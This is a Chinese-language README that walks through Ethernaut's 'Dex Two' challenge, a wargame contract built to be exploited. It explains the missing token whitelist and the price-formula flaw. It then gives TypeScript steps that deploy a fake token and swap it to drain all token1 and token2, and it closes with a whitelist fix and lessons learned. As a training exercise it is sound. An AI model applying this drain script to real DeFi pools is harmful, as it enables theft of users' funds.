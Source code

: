 # Ethernaut Challenge 23: Dex Two 🏴‍☠️

## 挑戰描述

這個關卡將要求你破解 `DexTwo` 合約的流動性池，將所有的 token1 和 token2 從合約中取出。

與前一個 Dex 挑戰不同，這次你需要做的是：
1. 從 DexTwo 中提取所有的 token1
2. 從 DexTwo 中提取所有的 token2

關鍵在於你需要從 DexTwo 中提取所有流動性池中的代幣！

## 合約分析

### 關鍵漏洞分析

1. **缺乏代幣白名單驗證**：
   - `swap` 函數沒有驗證 `from` 和 `to` 代幣是否為合法的 token1 或 token2
   - 攻擊者可以使用任意 ERC20 代幣進行交換

2. **價格計算公式缺陷**：
   ```solidity
   function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
       return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
   }
   ```
   - 當攻擊者控制 `from` 代幣的餘額時，可以操控計算結果

3. **approve 函數限制**：
   - SwappableTokenTwo 的 approve 函數阻止了 DEX 作為 owner 進行 approve
   - 但不影響攻擊者創建的新代幣

## 攻擊策略

### 步驟 1: 創建惡意代幣
```typescript
const attackerTokenFactory = await ethers.getContractFactory("SwappableTokenTwo");
const attackerToken = await attackerTokenFactory.deploy(
    contract.target, 
    "Attack on Token", 
    "AOT", 
    100000
);
```

### 步驟 2: 設置 Approval
```typescript
await contract.approve(contract.target, 100000);
await attackerToken["approve(address,address,uint256)"](attacker.address, contract.target, 100000);
```

### 步驟 3: 執行第一次攻擊 (提取 token1)
```typescript
// 轉 1 個惡意代幣到 DEX
await attackerToken.transfer(contract.target, 1);

// 用 1 個惡意代幣換取所有 token1
// getSwapAmount(attackerToken, token1, 1) = (1 * 100) / 1 = 100
await contract.swap(attackerToken.target, token1, 1);
```

### 步驟 4: 執行第二次攻擊 (提取 token2)
```typescript
// 再轉 8 個惡意代幣到 DEX (使 DEX 中惡意代幣餘額為 10)
await attackerToken.transfer(contract.target, 8);

// 用 10 個惡意代幣換取所有 token2
// getSwapAmount(attackerToken, token2, 10) = (10 * 100) / 10 = 100
await contract.swap(attackerToken.target, token2, 10);
```

## 攻擊原理詳解

### 關鍵數學計算

1. **初始狀態**：
   - DEX 中 token1: 100
   - DEX 中 token2: 100
   - DEX 中 attackerToken: 0

2. **第一次攻擊後**：
   - DEX 中 token1: 0 ✅
   - DEX 中 token2: 100
   - DEX 中 attackerToken: 1

3. **第二次攻擊後**：
   - DEX 中 token1: 0 ✅
   - DEX 中 token2: 0 ✅
   - DEX 中 attackerToken: 10

### 為什麼攻擊會成功？

1. **缺乏代幣驗證**：DEX 沒有限制只能交換 token1 和 token2
2. **價格操控**：攻擊者完全控制惡意代幣的供應量
3. **計算公式利用**：通過精確控制分母（惡意代幣餘額），可以得到想要的兌換比例

## 安全建議

1. **實施代幣白名單**：
   ```solidity
   modifier onlyValidTokens(address from, address to) {
       require(from == token1 || from == token2, "Invalid from token");
       require(to == token1 || to == token2, "Invalid to token");
       require(from != to, "Cannot swap same token");
       _;
   }
   ```

2. **加強價格預言機**：
   - 使用外部價格預言機
   - 實施滑點保護
   - 添加最小流動性要求

3. **審計交易邏輯**：
   - 檢查所有代幣轉賬
   - 驗證交換前後的餘額變化
   - 實施重入攻擊保護

## 運行指令

```bash
# 安裝依賴
npm install

# 編譯合約
npx hardhat compile

# 運行攻擊腳本
npx hardhat run scripts/interact.ts --network sepolia

# 運行測試
npx hardhat test
```

## 學習要點

1. **代幣驗證的重要性**：任何 DeFi 協議都應該嚴格驗證支持的代幣
2. **價格計算的安全性**：簡單的數學公式可能被惡意利用
3. **流動性池攻擊**：攻擊者可以通過操控流動性來影響價格

這個挑戰展示了 DeFi 協議中常見的漏洞類型，提醒我們在設計金融合約時需要考慮各種邊緣情況和潛在的攻擊向量。
